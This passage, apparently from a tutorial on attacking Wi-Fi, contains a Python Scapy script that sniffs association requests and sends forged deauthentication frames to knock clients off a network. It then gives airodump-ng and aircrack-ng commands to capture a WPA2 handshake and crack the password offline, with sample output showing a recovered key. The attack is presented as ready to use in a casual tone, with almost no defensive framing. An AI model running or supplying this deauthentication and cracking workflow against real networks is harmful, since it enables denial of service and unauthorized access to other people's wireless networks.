 ```python
        deauth(pkt[Dot11].addr1, pkt[Dot11].addr2)


def deauth(bssid, client):
    if client in whitelist:
        return

    print("Sending a deauth to: {}, bssid: {}".format(
        client, bssid))
    packet = RadioTap() / \
             Dot11(type=0,
                   subtype=12,
                   addr1=client,
                   addr2=bssid,
                   addr3=bssid) / \
             Dot11Deauth(reason=7)
    sendp(packet, iface=IFACE)


sniff(iface=IFACE,
      prn=check_deauth,
      filter='type mgt subtype assoc-req')

```

We use Scapy's `sniff()` method to listen for association requests. This follows the `pcap-filter` syntax used by Wireshark, tcpdump, and other utilities. It calls our `check_deauth()` function when it finds one, passing it the packet. Due to the way Scapy stacks on extra information elements as payloads of the previous information element, we have to traverse through them until we find the 'SSID' type one.

## WPA2 handshake capture and password cracking
After deauthenticating someone, their device wants to connect again, so capture the WPA2 handshake! It happens to be vulnerable to offline cracking, so it's capture-once, crack-on-your-own-fast-pc-in-the-comfort-of-your-own-home.

As it turns out, there are a number of scripts in the `aircrack-ng` family for these attacks (including deauthentication, handshake capture, and password brute forcing). Lets use them to simplify our life.

```bash
sudo airodump-ng -c 9 --bssid 'ab:cd:ef:ab:cd:ef' -w psk mon0
aircrack-ng -w all -b 'ab:cd:ef:ab:cd:ef' psk*.cap
```

```
                                 Aircrack-ng 1.2 rc4

      [00:00:00] 140/3944663 keys tested (1615.94 k/s)

      Time left: 40 minutes, 42 seconds                          0.00%

                           KEY FOUND! [ thethethe ]


      Master Key     : C7 D2 11 29 02 84 18 1E 1B 9B D8 A3 E4 A6 E3 97
                       B2 3E 13 46 3C A5 0E E2 7D C1 42 5A 59 B3 66 BD

      Transient Key  : A5 DB D6 D0 E0 BD 97 12 B6 2D 98 1C 6D 3C 09 FC
                       7C 0C E1 B5 C1 DC BC F5 0D 83 E6 48 2E 7E F5 13
                       C2 53 FC 47 DB A5 AF FE 9B 95 7A B0 23 BD 00 D3
                       9C F9 A3 9A 56 20 0C 62 16 88 2B 61 19 06 A1 3B

      EAPOL HMAC     : 02 8F F5 B9 7F 2B 09 A4 C7 01 7A A0 64 D5 42 DB
```